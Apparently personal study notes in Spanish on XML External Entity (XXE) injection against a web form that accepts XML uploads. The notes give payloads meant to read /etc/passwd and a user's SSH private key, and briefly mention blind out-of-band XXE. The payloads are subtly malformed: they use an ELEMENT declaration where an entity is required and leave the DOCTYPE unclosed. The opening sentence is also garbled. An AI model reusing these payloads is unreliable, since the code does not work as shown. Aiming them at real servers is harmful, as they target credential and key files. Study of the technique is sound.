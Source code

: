 XML External Entity esta es una vulnerabilidad en la por medio de una estructura *XML* a través de la declaración de entidades podemos ver archivos locales e incluso a ejecutar comandos.

Supongamos el caso de una pagina web donde puedes subir archivos *XML* conteniendo ciertas etiquetas en el archivo.

- Elements
- Author
- Subject
- Content

``` xml
<elements>
	<Author>S4tisfacti0n</Author>
	<Subject>Es una prueba</Subject>
	<Content>example</Content>
</elements>
```

y  nosotros subimos este archivo y podemos ver que carga este contenido en la web de manera interpretada.

Así que podemos aprovechar esto e inyectar entidades para después con un wrappers de tipo file y hacer un poco de [[LFI & RFI|LFI]].

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ELEMENT xxe SYSTEM "file:///etc/passwd"]
<elements>
	<Author>&xxe;</Author> <!-- Mostramos el valor de la variable xxe --> 
	<Subject>Es una prueba</Subject>
	<Content>example</Content>
</elements>
```

Igual mente podemos robar la llave privada de la siguiente forma
``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ELEMENT xxe SYSTEM "file:///home/s4tisfacti0n/.ssh/id_rsa"]
<elements>
	<Author>&xxe;</Author> <!-- Mostramos el valor de la variable xxe --> 
	<Subject>Es una prueba</Subject>
	<Content>example</Content>
</elements>
```

También existe una técnica casi igual a esta solo que en esta no puedes ver lo que representa ese *XML* en ese caso tendríamos que montarnos nuestras propias entidades y ser llamadas por la maquina victima.